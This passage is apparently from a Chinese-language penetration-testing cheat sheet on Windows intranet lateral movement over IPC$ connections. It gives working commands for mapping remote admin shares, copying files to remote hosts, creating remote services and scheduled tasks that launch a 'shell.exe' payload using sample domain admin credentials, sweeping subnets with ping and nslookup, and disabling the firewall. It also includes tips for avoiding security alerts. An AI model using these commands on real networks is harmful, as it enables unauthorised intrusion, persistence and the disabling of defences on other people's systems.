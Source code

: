 ipc建立成功后,尝试直接在本地往远程机器上拷贝文件
```
第一种方式:
# net use p: \\192.168.3.122\c$		可在建立ipc后直接把对方的c盘映射过来,直接在本地进行拷贝
# net use p: /del			用完以后,务必立马删除映射
```

```
第二种方式[推荐用xcopy]:
# xcopy d:\sqlitedata\*.* \\192.168.3.122\c$\temp /E /Y /D  也可在建立ipc后直接远程拷贝
```

依然是在ipc建立后,可直接在远程机器上创建,删除服务,创建服务时需要注意,常规程序需要有返回值,不然启动服务时会报1053错误
```
# sc \\192.168.3.122 create shellsrv binpath= "c:\shell.exe" start= auto displayname= "shellstart"
# sc \\192.168.3.122 stop shllsrv
# sc \\192.168.3.122 delete shellsrv
```

```
# net use \\192.168.3.122\admin$ /del
# net use * /del	最后,删除所有ipc,如果系统中还有其它的ipc连接,也可指定只删除自己的
```

在远程机器上快速创建删除定时任务,需要指定目标系统的账号密码 [ 03以下系统用at,想必大家都已非常熟练,这里不再多说 ]
```
# net use \\192.168.3.122\admin$ "admin!@#45" /user:"klionsec\administrator"
# net time \\192.168.3.122	查看目标机器当前时间
# net use \\192.168.3.122\admin$ /del

# schtasks /create  /?		查看schtasks使用帮助
# chcp 437			如果当前机器是中文系统需要先修改下cmd字符集,默认cmd是gbk,不然后面用schtasks远程创建计划任务时会报错
# chcp 936			用完以后再把字符集改回来,如果是英文系统就不会有这种问题
# schtasks /s 192.168.3.122 /u "klionsec\administrator" /p "admin!@#45" /create /TN "shellexec" /SC DAILY /ST 11:18 /F /RL HIGHEST /SD 2017/11/13 /ED 2017/11/16 /TR "C:\shell.exe"
# schtasks /s 192.168.3.122 /u "klionsec\administrator" /p "admin!@#45" /query  | findstr "shell"
# schtasks /s 192.168.3.122 /u "klionsec\administrator" /p "admin!@#45" /TN "shellexec" /delete
```

初步先大致看下当前所在内网有多少存活机器 [ 单基于icmp的扫描 ]:
```
# for /L %I in (1,1,254) DO @ping -n 1 192.168.3.%I | findstr "TTL=128" >> pinglog.txt
```

搜集当前内网中的dns信息:
```
# for /L %I in (1,1,254) DO @nslookup 192.168.3.%I | find "Name:" >> dnslog.txt
```

操作当前机器防火墙[务必先提权]:
```
# netsh advfirewall show private		查看当前机器防火墙状态
# netsh advfirewall set allprofiles state off	关闭当前机器防火墙
# netsh advfirewall set allprofiles state on	开启当前机器防火墙
```

操作当前机器的rdp,实战中推荐直接用powershell来搞,直接用reg可能会触发防护报警:
